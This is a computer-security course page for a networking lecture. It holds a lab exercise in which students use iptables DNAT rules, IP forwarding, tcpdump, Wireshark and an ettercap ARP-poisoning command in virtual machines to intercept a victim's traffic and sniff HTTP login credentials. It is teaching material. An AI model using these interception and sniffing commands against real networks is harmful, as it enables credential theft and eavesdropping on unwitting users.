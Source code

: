 ```yaml
---
layout: default
course_number: CS497
title: "Lecture 5: Computer Networking"
---
```


# Lecture 5

- Network Security
- Basic Internet technology
- TCP/IP
- Network models and ARP security
- Spoofing, sniffing, session hijacking
- Denial-of-service botnets

### Reading 

- Introduction to Computer Security: Chapter 5

### Slides

- [Computer Networking](Ch05-NetworkModelsARP.pdf)

### In Class Exercise (part 1)
- Startup VirtualBox and create three (3) virtual machines. 
- One is used to host applications (server) and other virtual machines are for the victim and the attacker.
- Once the network setup is done, run ```ifconfig``` on all VMs and record the IP address for each VM. Take a screenshot.
- **Normal Scenario:**
  - Create a folder in *Server* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testserver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command 
  ```python -m SimpleHTTPServer```
  - Open a browser session in ```Victim’s``` VM and enter ```http://<server_ip_address>:8000/test.html``` in the URL bar. 
  - Observe that we get the expected response. Take a screenshot.
- **Victim to Attacker Link Scenario:**
  - Execute the following commands in ```Victim's``` VM and take a screenshot.
  ```
  sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 443 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination attacker_ip_address
  ```
  - Create a folder in *Attacker* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command ```python -m SimpleHTTPServer```
  - In ```Victim’s``` VM refresh the browser and observe that we get the expected response. Take a screenshot.
- **Attacker to Server Link Scenario:**
  - Execute the following commands in ```Attacker's``` VM and take a screenshot.
  ```
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A POSTROUTING -j MASQUERADE
  ```
  - Once above rules are in place, refresh the ```Victim’s``` browser and observe that we are getting the original response from the ```Server```. Take a screenshot. However, now all the traffic is routed through the ```Attacker’s``` network interface. 
  - Open up Wireshark in ```Attacker’s``` virtual machine (you might need to run Wireshark with sudo in order to get the interface list, if group permissions are not properly set). 
  - Select *enp0s3* as the interface and capture communication. *Interface name may vary.* 
  - Observe network traffic as you refresh the ```Victim's``` browser. Take a screenshot.
- To reset the iptables: ```sudo iptables -F```
- [iptables man pages](https://linux.die.net/man/8/iptables)

### In Class Exercise (part 2)
- In this exercise we will be using ettercap to perform ARP poisoning. Ettercap is a comprehensive suite for man in the middle attacks.
- You can install ettercap on your VM bu using -```sudo apt-get install ettercap-text-only```
- The goal of the second part of the lab is to sniff unsecured user authentication and to become familiar with ```tcpdump``` and ```ettercap```. ```tcpdump``` is a command lline network analyzer alternative to Wireshark. In this lab, we will only need the attacker and the victim (client) VM's to be running.
- ```ip r | grep default``` will provide you with indormation about the default gateway. 
- Extensive information aregarding ```tcpdump``` can be found [here](https://www.tcpdump.org/manpages/tcpdump.1.html)

- **Steps**
1. From the attacker's VM, open a terminal window and start monitoring any ARP request and replies. Use the following command: ```sudo tcpdump -n -i <interface_name> arp```. Depending on the network traffic, you might begin see a few ARP requests for other machines.
2. Still from the attacker's VM, open a second terminal and start monitoring traffic between our victim and the rest of the Internet. Use the command: ```sudo tcpdump -n -i <interface_name> tcp and port 80 and host <victim_ip_address> -s0 -A -c 1000```. 
3. In a third terminal window enter the following command ```sudo ettercap -T -M ARP /<victim_ip_address>// /<router_ip_address>//```. This will ask ettercap to redirect packets from victim to server through your router first. It will then replay those packets on to the correct MAC address so that neither host notices that ettercap is stealing these packets.
4. On the Victim's VM open up firefox and navigate to [http://aavtrain.com/](http://aavtrain.com/).
5. Login to [http://aavtrain.com/](http://aavtrain.com/) with **fake** username and password. Record what you have used. 
6. Review the output from the second terminal on the attacker's VM. Can you find the sniffed HTTP username and password used to login into the website? If you cannot find the username and the password in the payload, feel free to use wireshark to point you to the right packet. Take a screenshots of the compromised data. 
7. Back to the victims VM's, using the browser navigate to [www.facebook.com](www.facebook.com) and try to sniff the user login information. Explain what happens and provide a brief explanation. 
8. Shutdown ettercap by pressing 'q'.

### Report 
- Screenshots from both parts of the lab along with any information you would like to share. 
- Awnser the following:
1. What were two things you learned from this lab?
2. Research and submit a link to a tool that we can install on our Linux machine to detect ARP poisoning.
